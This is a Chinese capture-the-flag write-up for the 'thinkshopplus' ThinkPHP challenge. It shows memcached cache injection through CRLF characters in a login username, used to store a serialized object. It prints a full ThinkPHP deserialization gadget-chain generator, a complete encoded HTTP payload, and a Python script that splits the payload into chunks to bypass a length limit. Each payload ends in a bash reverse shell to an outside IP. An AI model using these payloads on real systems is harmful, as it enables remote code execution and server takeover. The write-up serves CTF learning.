








# S8强网杯Final-thinkshopplus-先知社区

> **来源**: https://xz.aliyun.com/news/16018  
> **文章ID**: 16018

---

## S8强网杯Final-thinkshopplus

这题是一道thinkphp框架的题目。刚开始拿到这题的时候就非常熟悉，和去年S7初赛的两道thinkphp很像，但是应该是第二题thinkshopping多加了一个限制，限制了mysql的secure\_file\_priv值为secure\_file\_priv。限制了文件操作的范围



如果没有限制的话，就和去年初赛那个thinkshopping一模一样了，先通过memcached缓存注入，设置序列化数据，然后登录成功，在后台进行sql load\_file直接读取文件。

这题其实本身还是很难的，但是我们站在巨人的肩膀（[大头✌](https://www.yuque.com/dat0u/ctf/vspr1g8x58cwuc9a#HAlvy "大头✌")）上看就变得没这么难了。

我们用之前的payload尝试一下，看看memcached缓存是什么样子的

```
POST /public/index.php/index/admin/do_login.html HTTP/1.1
Host: 172.20.64.1:36000
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=korn6f9clt7oere36ke7pj7m70

username=admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20500%20101%0D%0Aa%3A3%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%2221232f297a57a5a743894a0e4a801fc3%22%3B%7D&password=admin
```

这里我们其实可以看到memcached存储的data数据是php序列化的值。



我们这里如果通过设置这个序列化的值为我们的恶意序列化数据，然后反序列化是否能成功rce呢。

我们就顺着这个思路往下走就行

我们先尝试一下是否有链子能打通

```
<?php
namespace think\process\pipes{
    use think\model\Pivot;
    ini_set('display_errors',1);
    class Windows{
        private $files = [];
        public function __construct($function,$parameter)
        {
            $this->files = [new Pivot($function,$parameter)];
        }
    }

//    $array = [
//        'nestedArray' => new Windows('system',"bash -c 'sh -i &>/dev/tcp/192.168.110.111/3333 0>&1'")
//    ];


    $array =  serialize(new Windows('system',"bash -c 'sh -i &>/dev/tcp/192.168.110.111/3333 0>&1'"));
    echo base64_encode($array);

}
namespace think{
    abstract class Model
    {}
}
namespace think\model{
    use think\Model;
    use think\console\Output;
    class Pivot extends Model
    {
        protected $append = [];
        protected $error;
        public $parent;
        public function __construct($function,$parameter)
        {
            $this->append['jelly'] = 'getError';
            $this->error = new relation\BelongsTo($function,$parameter);
            $this->parent = new Output($function,$parameter);
        }
    }
    abstract class Relation
    {}
}
namespace think\model\relation{
    use think\db\Query;
    use think\model\Relation;
    abstract class OneToOne extends Relation
    {}
    class BelongsTo extends OneToOne
    {
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct($function,$parameter)
        {
            $this->selfRelation = false;
            $this->query = new Query($function,$parameter);
            $this->bindAttr = [''];
        }
    }
}
namespace think\db{
    use think\console\Output;
    class Query
    {
        protected $model;
        public function __construct($function,$parameter)
        {
            $this->model = new Output($function,$parameter);
        }
    }
}
namespace think\console{
    use think\session\driver\Memcache;
    class Output
    {
        protected $styles = [];
        private $handle;
        public function __construct($function,$parameter)
        {
            $this->styles = ['getAttr'];
            $this->handle = new Memcache($function,$parameter);
        }
    }
}
namespace think\session\driver{
    use think\cache\driver\Memcached;
    class Memcache
    {
        protected $handler = null;
        protected $config  = [
            'expire'       => '',
            'session_name' => '',
        ];
        public function __construct($function,$parameter)
        {
            $this->handler = new Memcached($function,$parameter);
        }
    }
}
namespace think\cache\driver{
    use think\Request;
    class Memcached
    {
        protected $handler;
        protected $options = [];
        protected $tag;
        public function __construct($function,$parameter)
        {
            // pop链中需要prefix存在，否则报错
            $this->options = ['prefix'   => 'jelly/'];
            $this->tag = true;
            $this->handler = new Request($function,$parameter);
        }
    }
}
namespace think{
    class Request
    {
        protected $get     = [];
        protected $filter;
        public function __construct($function,$parameter)
        {
            $this->filter = $function;
            $this->get = ["jelly"=>$parameter];
        }
    }
}

```

然后再web根目录下跑出我们的pocc.php，进行poc



发现链子确实可以用，那就立即行动。poc一下，到底是否反序列化缓存中的数据。由于我们怎么都写不上我的长序列化数据，最后才发现是长度限制了，我最开始用的自己的**笨蛋**方法poc的。

```
<?php
namespace think\process\pipes{
    use think\model\Pivot;
    ini_set('display_errors',1);
    class Windows{
        private $files = [];
        public function __construct($function,$parameter)
        {
            $this->files = [new Pivot($function,$parameter)];
        }
    }

//    $array = [
//        'nestedArray' => new Windows('system',"bash -c 'sh -i &>/dev/tcp/121.37.152.108/3333 0>&1'")
//    ];

    class Myclass{
        public $a="11";
    }

$array = [
    'id'=>1,
    'username'=>'admin',
    'password'=>'5b1b68a9abf4d2cd155c81a9225fd158',
    'nestedArray'=>new Myclass()
];


    $array =  serialize($array);
    echo urlencode($array);

}
namespace think{
    abstract class Model
    {}
}
namespace think\model{
    use think\Model;
    use think\console\Output;
    class Pivot extends Model
    {
        protected $append = [];
        protected $error;
        public $parent;
        public function __construct($function,$parameter)
        {
            $this->append['jelly'] = 'getError';
            $this->error = new relation\BelongsTo($function,$parameter);
            $this->parent = new Output($function,$parameter);
        }
    }
    abstract class Relation
    {}
}
namespace think\model\relation{
    use think\db\Query;
    use think\model\Relation;
    abstract class OneToOne extends Relation
    {}
    class BelongsTo extends OneToOne
    {
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct($function,$parameter)
        {
            $this->selfRelation = false;
            $this->query = new Query($function,$parameter);
            $this->bindAttr = [''];
        }
    }
}
namespace think\db{
    use think\console\Output;
    class Query
    {
        protected $model;
        public function __construct($function,$parameter)
        {
            $this->model = new Output($function,$parameter);
        }
    }
}
namespace think\console{
    use think\session\driver\Memcache;
    class Output
    {
        protected $styles = [];
        private $handle;
        public function __construct($function,$parameter)
        {
            $this->styles = ['getAttr'];
            $this->handle = new Memcache($function,$parameter);
        }
    }
}
namespace think\session\driver{
    use think\cache\driver\Memcached;
    class Memcache
    {
        protected $handler = null;
        protected $config  = [
            'expire'       => '',
            'session_name' => '',
        ];
        public function __construct($function,$parameter)
        {
            $this->handler = new Memcached($function,$parameter);
        }
    }
}
namespace think\cache\driver{
    use think\Request;
    class Memcached
    {
        protected $handler;
        protected $options = [];
        protected $tag;
        public function __construct($function,$parameter)
        {
            // pop链中需要prefix存在，否则报错
            $this->options = ['prefix'   => 'jelly/'];
            $this->tag = true;
            $this->handler = new Request($function,$parameter);
        }
    }
}
namespace think{
    class Request
    {
        protected $get     = [];
        protected $filter;
        public function __construct($function,$parameter)
        {
            $this->filter = $function;
            $this->get = ["jelly"=>$parameter];
        }
    }
}

```

我们去问了ai和datou师傅的文章可以知道

```
set key flags exptime bytes [noreply] 
value

```

在这里面key代表的是要设置的键，set代表的是我们要执行的操作，还可以其他很多操作等等，包括我们后续会用到的append操作等等，exptime就是这个键对能够生效的时间，bytes是value的长度



所以我们的注入语句是(至于为什么是这个键值，为什么是这样写的<https://www.yuque.com/dat0u/ctf/vspr1g8x58cwuc9a#HAlvy这篇文章写的很清楚>)

```
admin
set think:shop.admin|admin 4 500 176
a:4:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:32:"5b1b68a9abf4d2cd155c81a9225fd158";s:11:"nestedArray";O:27:"think\process\pipes\Myclass":1:{s:1:"a";s:2:"11";}}

```

```
POST /public/index.php/index/admin/do_login.html HTTP/1.1
Host: 172.20.64.1:36000
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=korn6f9clt7oere36ke7pj7m70

username=admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20500%20176%0D%0Aa%3A4%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%225b1b68a9abf4d2cd155c81a9225fd158%22%3Bs%3A11%3A%22nestedArray%22%3BO%3A27%3A%22think%5Cprocess%5Cpipes%5CMyclass%22%3A1%3A%7Bs%3A1%3A%22a%22%3Bs%3A2%3A%2211%22%3B%7D%7D&password=admin
```



  
发现密码555555确实成功登录，说明反序列化成功。

那我们接下来就是把恶意序列化数据拼接到后面就可以了。然后设置data为下面序列化数据即可

```
<?php
namespace think\process\pipes{
    use think\model\Pivot;
    ini_set('display_errors',1);
    class Windows{
        private $files = [];
        public function __construct($function,$parameter)
        {
            $this->files = [new Pivot($function,$parameter)];
        }
    }


$array = [
    'nestedArray'=>new Windows('system',"bash -c 'sh -i &>/dev/tcp/192.168.110.111/3333 0>&1'")
];


    $array =  serialize($array);
    echo strlen($array);
    echo urlencode($array);

}
namespace think{
    abstract class Model
    {}
}
namespace think\model{
    use think\Model;
    use think\console\Output;
    class Pivot extends Model
    {
        protected $append = [];
        protected $error;
        public $parent;
        public function __construct($function,$parameter)
        {
            $this->append['jelly'] = 'getError';
            $this->error = new relation\BelongsTo($function,$parameter);
            $this->parent = new Output($function,$parameter);
        }
    }
    abstract class Relation
    {}
}
namespace think\model\relation{
    use think\db\Query;
    use think\model\Relation;
    abstract class OneToOne extends Relation
    {}
    class BelongsTo extends OneToOne
    {
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct($function,$parameter)
        {
            $this->selfRelation = false;
            $this->query = new Query($function,$parameter);
            $this->bindAttr = [''];
        }
    }
}
namespace think\db{
    use think\console\Output;
    class Query
    {
        protected $model;
        public function __construct($function,$parameter)
        {
            $this->model = new Output($function,$parameter);
        }
    }
}
namespace think\console{
    use think\session\driver\Memcache;
    class Output
    {
        protected $styles = [];
        private $handle;
        public function __construct($function,$parameter)
        {
            $this->styles = ['getAttr'];
            $this->handle = new Memcache($function,$parameter);
        }
    }
}
namespace think\session\driver{
    use think\cache\driver\Memcached;
    class Memcache
    {
        protected $handler = null;
        protected $config  = [
            'expire'       => '',
            'session_name' => '',
        ];
        public function __construct($function,$parameter)
        {
            $this->handler = new Memcached($function,$parameter);
        }
    }
}
namespace think\cache\driver{
    use think\Request;
    class Memcached
    {
        protected $handler;
        protected $options = [];
        protected $tag;
        public function __construct($function,$parameter)
        {
            // pop链中需要prefix存在，否则报错
            $this->options = ['prefix'   => 'jelly/'];
            $this->tag = true;
            $this->handler = new Request($function,$parameter);
        }
    }
}
namespace think{
    class Request
    {
        protected $get     = [];
        protected $filter;
        public function __construct($function,$parameter)
        {
            $this->filter = $function;
            $this->get = ["jelly"=>$parameter];
        }
    }
}


//echo strlen($array);
//echo urlencode($array);

```

这个就是完全的payload:

```
POST /public/index.php/index/admin/do_login.html HTTP/1.1
Host: 172.20.64.1:36000
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=korn6f9clt7oere36ke7pj7m70

username=admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20500%201490%0D%0Aa%3A4%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%225b1b68a9abf4d2cd155c81a9225fd158%22%3Bs%3A11%3A%22nestedArray%22%3BO%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A5%3A%22jelly%22%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A30%3A%22think%5Cmodel%5Crelation%5CBelongsTo%22%3A3%3A%7Bs%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7Ds%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A29%3A%22think%5Csession%5Cdriver%5CMemcache%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A28%3A%22think%5Ccache%5Cdriver%5CMemcached%22%3A3%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A13%3A%22think%5CRequest%22%3A2%3A%7Bs%3A6%3A%22%00%2A%00get%22%3Ba%3A1%3A%7Bs%3A5%3A%22jelly%22%3Bs%3A52%3A%22bash%20%2Dc%20%27sh%20%2Di%20%26%3E%2Fdev%2Ftcp%2F192%2E168%2E110%2E111%2F3333%200%3E%261%27%22%3B%7Ds%3A9%3A%22%00%2A%00filter%22%3Bs%3A6%3A%22system%22%3B%7Ds%3A10%3A%22%00%2A%00options%22%3Ba%3A1%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A6%3A%22jelly%2F%22%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A6%3A%22expire%22%3Bs%3A0%3A%22%22%3Bs%3A12%3A%22session%5Fname%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D%7Ds%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A6%3A%22parent%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7Ds%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A29%3A%22think%5Csession%5Cdriver%5CMemcache%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A28%3A%22think%5Ccache%5Cdriver%5CMemcached%22%3A3%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A13%3A%22think%5CRequest%22%3A2%3A%7Bs%3A6%3A%22%00%2A%00get%22%3Ba%3A1%3A%7Bs%3A5%3A%22jelly%22%3Bs%3A52%3A%22bash%20%2Dc%20%27sh%20%2Di%20%26%3E%2Fdev%2Ftcp%2F192%2E168%2E110%2E111%2F3333%200%3E%261%27%22%3B%7Ds%3A9%3A%22%00%2A%00filter%22%3Bs%3A6%3A%22system%22%3B%7Ds%3A10%3A%22%00%2A%00options%22%3Ba%3A1%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A6%3A%22jelly%2F%22%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A6%3A%22expire%22%3Bs%3A0%3A%22%22%3Bs%3A12%3A%22session%5Fname%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D%7D%7D%7D%7D&password=admin
```

发现如何都设置不了缓存值，然后我fuzz发现是因为设置data长度太长了。导致的无法设置成功

我们只有想办法分几个传输.

想到了刚刚问ai的append操作,测试发现我们可以通过append来进行拼接。



然后训练GPT得到如下脚本，然后自己用wireshark抓包微调了一下（注意第一次必须是set操作，因为append只会对已经存在的键值对操作）:

其中的encoded\_data就是我们上面pop链子跑出来的urlencode数据

```
import time
import urllib.parse
import requests
import urllib.parse
def poc_NmEEF(transmission):
    headers = {
        "Host": "172.20.64.1:36000",
"Content-Type": "application/x-www-form-urlencoded",
"Cookie": "PHPSESSID=korn6f9clt7oere36ke7pj7m70"
}
    res = requests.post(url="http://172.20.64.1:36000/public/index.php/index/admin/do_login.html", headers=headers, data={
        "username": transmission,
        "password": "admin"
}, verify=False)

    time.sleep(5)
    return res.text
# 原始的 URL 编码字符串
encoded_data = "a%3A1%3A%7Bs%3A11%3A%22nestedArray%22%3BO%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A5%3A%22jelly%22%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A30%3A%22think%5Cmodel%5Crelation%5CBelongsTo%22%3A3%3A%7Bs%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7Ds%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A29%3A%22think%5Csession%5Cdriver%5CMemcache%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A28%3A%22think%5Ccache%5Cdriver%5CMemcached%22%3A3%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A13%3A%22think%5CRequest%22%3A2%3A%7Bs%3A6%3A%22%00%2A%00get%22%3Ba%3A1%3A%7Bs%3A5%3A%22jelly%22%3Bs%3A52%3A%22bash%20%2Dc%20%27sh%20%2Di%20%26%3E%2Fdev%2Ftcp%2F192%2E168%2E110%2E111%2F3333%200%3E%261%27%22%3B%7Ds%3A9%3A%22%00%2A%00filter%22%3Bs%3A6%3A%22system%22%3B%7Ds%3A10%3A%22%00%2A%00options%22%3Ba%3A1%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A6%3A%22jelly%2F%22%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A6%3A%22expire%22%3Bs%3A0%3A%22%22%3Bs%3A12%3A%22session%5Fname%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D%7Ds%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A6%3A%22parent%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7Ds%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A29%3A%22think%5Csession%5Cdriver%5CMemcache%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A28%3A%22think%5Ccache%5Cdriver%5CMemcached%22%3A3%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A13%3A%22think%5CRequest%22%3A2%3A%7Bs%3A6%3A%22%00%2A%00get%22%3Ba%3A1%3A%7Bs%3A5%3A%22jelly%22%3Bs%3A52%3A%22bash%20%2Dc%20%27sh%20%2Di%20%26%3E%2Fdev%2Ftcp%2F192%2E168%2E110%2E111%2F3333%200%3E%261%27%22%3B%7Ds%3A9%3A%22%00%2A%00filter%22%3Bs%3A6%3A%22system%22%3B%7Ds%3A10%3A%22%00%2A%00options%22%3Ba%3A1%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A6%3A%22jelly%2F%22%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A6%3A%22expire%22%3Bs%3A0%3A%22%22%3Bs%3A12%3A%22session%5Fname%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D%7D%7D%7D%7D"
# 解码数据
decoded_data = urllib.parse.unquote(encoded_data)
# 设置每块最大传输字节数
block_size = 150
# 分块传输
for i in range(0, len(decoded_data), block_size):
    chunk = decoded_data[i:i + block_size]
    length = len(chunk)
    # encoded_chunk = urllib.parse.quote(chunk, safe='')
    # 第一次传输使用 set，后面使用 append
    command = "set" if i == 0 else "append"
    transmission = f"admin%00%0D%0A{command}%20think%3Ashop.admin%7Cadmin%204%20500%20{length}%0D%0A{chunk}"
    poc_NmEEF(urllib.parse.unquote(transmission))
    print("attack"+str(i))

```

最后成功写入后，用账户密码admin/555555触发一下反序列化即可


